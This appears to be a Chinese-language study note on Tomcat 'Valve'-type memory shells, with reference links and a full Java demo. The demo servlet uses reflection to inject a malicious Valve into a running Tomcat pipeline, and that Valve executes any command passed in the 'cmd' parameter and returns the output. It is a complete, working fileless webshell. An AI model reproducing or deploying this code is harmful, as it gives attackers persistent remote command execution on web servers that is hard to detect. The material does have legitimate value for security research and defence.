

### 链接

https://www.cnblogs.com/coldridgeValley/p/5816414.html  (基础知识)

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Valve%E5%9E%8B/

https://www.freebuf.com/vuls/346943.html

### demo

```java
package valve;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "EvilValveServlet", value = "/EvilValve")
public class EvilValveServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        doPost(request,response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        Field reqF = null;
        try {
            reqF = request.getClass().getDeclaredField("request");
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        }
        reqF.setAccessible(true);
        Request req = null;
        try {
            req = (Request) reqF.get(request);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
        StandardContext standardContext = (StandardContext) req.getContext();
        standardContext.getPipeline().addValve(new EvilValve());
        response.getWriter().write("inject success");
    }
}
class EvilValve extends ValveBase {

    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        String cmd = request.getParameter("cmd");
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in).useDelimiter("\\a");
        String output = s.hasNext() ? s.next() : "";
        PrintWriter out = response.getWriter();
        out.println(output);
        out.flush();
        out.close();
    }
}
```




